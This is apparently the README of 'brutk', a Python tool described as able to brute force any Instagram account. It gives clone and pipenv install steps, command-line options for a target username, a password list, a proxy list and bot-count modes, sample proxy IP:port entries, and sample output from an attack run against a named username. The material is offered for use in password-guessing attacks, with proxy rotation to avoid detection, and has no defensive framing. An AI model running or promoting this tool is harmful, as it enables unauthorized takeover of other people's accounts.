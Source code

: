 # brutk
This program will brute force any Instagram account 
# Requirements 

Python v3.9


proxy list 

# Installation 

git clone https://github.com/Khalidhusain786/brutk.git


pip install pipenv  
 
 
pipenv --python 3.9 


pipenv install 



# Help 



usage:  instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit 
  
  -u USERNAME, --username USERNAME
                        email or username 
                        
  -p PASSLIST, --passlist PASSLIST 
                        password list 
                        
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list 
                        
  --prune PRUNE         prune the database 
  
  --stats               get statistics of the proxies 
  
  -nc, --no-color       disable colors 
  
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots 
  


# Upload Proxy 
  
  3.238.111.248:80

206.189.59.192:8118

165.22.81.30:34100

176.248.120.70:3128

191.242.178.209:3128

180.92.194.235:80  


To upload a list of proxies a similar syntax must be followed.  




python instagram.py -px <path to proxy list>  

 

  
  # Stats 
 
 This gives an insight into the health of the proxies in the database.
 
 
 
 
 python instagram.py --stats 
 
 
 
 
 
  # Prune 
 
 
 This allows the able to get rid of proxies with a score below a given score.

It is recommended that you run the --stats and prune the database of proxies 
 
 
 

 python instagram.py --prune 0.05

 
 
 
Pruning is not a requirement because the

the system will automatically learn which proxies perform poorly and stop using them.
 
 
 # Usage 
 
 python instagram.py -u <username> -p <passlist>

  
# Run 
 
Wordlist: gali.txt

[-] Username: galikachora
 

[-] Password: 580
 

[-] Complete: 65.51%

[-] Attempts: 350

[-] Browsers: 280

[-] Exists: True
  




